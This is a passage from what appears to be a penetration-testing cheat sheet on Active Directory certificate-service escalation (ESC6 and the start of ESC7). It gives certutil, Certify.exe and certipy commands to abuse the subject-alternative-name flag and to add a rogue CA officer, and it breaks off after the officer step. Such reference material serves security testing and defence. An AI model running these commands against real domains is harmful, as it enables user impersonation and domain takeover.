 ### Requirements to Attack

|Attribute|Value|Description|
|---|---|---|
|EDITF_ATTRIBUTESUBJECTALTNAME2 flag|Enabled| If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the SAN (subject alternative name.)|

### Exploit

First off, check if the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is set on the CA.

```powershell
certutil –getreg policy\EditFlags

reg query \\<target-ip>\HKEY_LOCAL_MACHINE_SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<VULN-CA>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

If set, abuse it by using `/altname` flag with any template (e.g. `User`) that allows for domain auth.

```sh
Certify.exe request /ca:dc.example.local\VULN-CA /template:User /altname:localadmin

certutil -config "VULN-CA-HOST\VULN-CA" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```

<br />

## ESC7

### Requirements to Attack

|Attribute|Value|Description|
|---|---|---|
|CA Permissions|Low-privileged users have `ManageCA` (aka CA Administrator) permissions or `ManageCertificates` (aka Certificate Manager/Officer).|The `ManageCA` permission grants a principal the ability to perform "Administrative" CA actions, including the modification of persistent configuration data. This includes the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.|

### Exploit

At first we need to know the `CA Name` so run the following command then check the output.

```bash
certipy find -u username@example.local -p password -dc-ip <target-ip> -stdout

# Also it can be used.
Get-CertificationAuthority -ComputerName dc.example.local | Get-CertificationAuthorityAcl | select -expand Access
```

Then add new officer to the CA.  Replace `victim-ca` with actual name found.

```bash
# -add-officer: Add a new officer to specific CA (specified with `-ca`)
# -ca: Specify the CA Name
certipy ca -u username@example.local -p password -dc-ip <target-ip> -ca 'victim-ca' -add-officer username
```
